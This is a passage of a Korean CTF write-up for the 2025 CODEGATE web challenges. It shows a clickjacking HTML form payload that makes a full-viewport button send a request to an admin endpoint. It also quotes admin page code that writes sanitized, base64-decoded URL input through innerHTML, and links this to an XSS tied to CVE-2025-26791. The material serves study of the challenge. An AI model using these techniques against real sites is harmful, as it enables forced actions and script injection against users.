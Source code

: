 위 코드를 보면 확인할 수 있듯이 `slider` 속성을 주게 되면 버튼으로 화면의 viewpoirt가 전부 채워지게 된다.

![<button class="slider"></button>](/[KR]%202025%20CODEGATE%20CTF%20Web%20Challenges%20Writeup%2025595ea211f580cca84cefe7f436db5f/image%202.png)

<button class="slider"></button>

이제 Click Jacking을 통해 원하는 URL로 요청을 보낼 수 있다.

```html
<form id="a" action="//localhost:3000/admin/test">
  <input type="text" name="content" value="xxxx" /><button
    id="delete"
    form="a"
    class="slider"
  >
    a
  </button>
</form>
```

### 3. `/admin/test` 에서의 XSS (CVE-2025-26791)

`/admin/test` 에 접근하면 `test.ejs` 파일을 렌더링 해주는 것을 알 수 있다.

```html
<!-- app/views/admin/test.ejs:14:42 -->
<script>
  window.addEventListener("load", async () => {
    const post_title = document.querySelector(".post_title");
    const post_content = document.querySelector(".post_content");
    const error_div = document.querySelector(".error_div");

    const urlSearch = new URLSearchParams(location.search);
    const urlTitle = urlSearch.get("title");
    const urlContent = urlSearch.get("content");

    const result = await fetch("/admin/sanitize", {
      method: "POST",
      headers: {
        "Content-Type": "application/json",
      },
      body: JSON.stringify({
        title: atob(urlTitle),
        content: atob(urlContent),
      }),
    });

    const { title, content } = await result.json();

    post_title.innerHTML = title;
    post_content.innerHTML = content;
  });
</script>
```
